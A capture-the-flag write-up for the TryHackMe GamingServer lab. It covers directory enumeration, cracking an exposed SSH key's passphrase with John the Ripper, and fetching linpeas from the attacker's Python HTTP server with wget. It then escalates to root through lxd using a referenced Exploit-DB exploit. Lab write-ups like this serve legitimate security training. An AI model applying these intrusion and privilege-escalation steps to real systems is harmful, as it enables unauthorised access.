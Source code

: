 # Writeup for GamingServer Room from TryHackMe
Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.

## What is the user flag? What is the root flag?

We can do our basic enumerations with nmap, dirsearch , nikto and we found a webpage with these directories

```
[00:23:50] 200 -    2KB - /about.php
[00:24:31] 200 -    3KB - /index.html
[00:24:54] 200 -   33B  - /robots.txt
[00:24:55] 200 -  940B  - /secret/
[00:25:07] 200 -    1KB - /uploads/
```
Looking at all these directories we found a rsa id key , and a password list file.

We can use john the ripper and find the pass for the rsa id key.
```
~/Downloads/JohnTheRipper/run/ssh2john.py secretKey > johnhash
~/Downloads/JohnTheRipper/run/john johnhash --wordlist='dict.lst'
```
and we find the passphrase as ```letmein```.
And we can login and get the the user flag.

Now we can transfer linpeas to the victim pc using python server

we can do
```
python3 -m http.server
```
and from the victims pc we can wget it
```
wget "http"//localip:port/filename
```
Now running linpeas we can determine the possible vulnerabilities, We see that we can run lxd (container)
We can use lxd-alpine-builder, to generate .tar file. We use a exploit from [exploit](lxc_exploit) db exploitdb. We can transfer both .tar file and exploit through python server.

And we will run the exploit to make the container, the container will have the root folder mounted in the container. So now we can see the root.txt